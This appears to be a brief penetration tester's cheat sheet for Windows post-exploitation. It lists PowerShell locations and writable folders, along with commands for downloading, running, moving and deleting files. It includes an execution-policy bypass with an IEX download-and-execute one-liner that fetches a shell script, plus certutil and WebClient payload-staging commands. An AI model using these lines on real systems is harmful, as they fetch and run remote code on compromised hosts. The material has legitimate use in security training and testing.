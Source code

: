# basic

## Powershell location

```bash
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

## Writable Paths

```bash
C:\Windows\Temp
C:\Users\<USER>\Desktop\
C:\Users\Public\
C:\Documents and Settings\Public\
C:\Documents and Settings\<USER>\Desktop\
```

## PS styles

```
PS> $host
> powershell -c <cmd>
> powershell.exe -exec bypass -Command <>
```

### Cmds

```
# download file
certutil.exe -urlcache [-split] -f <source> <destination>
PS> wget <source> -OutFile <dest>
PS> Invoke-WebRequest -Uri <source> -Outfile <out-path>
powershell -c (New-Object System.Net.WebClient).downloadFile('<source>', '<dest>')
powershell -exec bypass IEX(New-Object Net.WebClient).downloadString('/shell.ps1')
wget.vbs https://gist.github.com/sckalath/ec7af6a1786e3de6c309

#run file
> ren <src> <dest>
PS> Start-Process <file.exe>

# rename 
PS> Rename-Item -Path <file> -NewName <new-file>

# move 
> copy /Y <src> <dest>
PS> Move-Item -Path <src> -Destination <dest>
# /E copies entire dir-structure
> robocopy <src> <dest> /E

# delete
PS> Remove-Item -Path <file> [-recursive]
```

### PS shorthand

```
# get child items
PS> gci [--recurse]

# get content
PS> gc FILE
```

## Arch based windows directory structure

| Session type   | 32 bit folder       | 64 bit folder          |
| -------------- | ------------------- | ---------------------- |
| 32 bit session | C:\Windows\system32 | C:\Windows\sysNative\\ |
| 64 bit session | C:\Windows\sysWOW64 | C:\Windows\system32\\  |
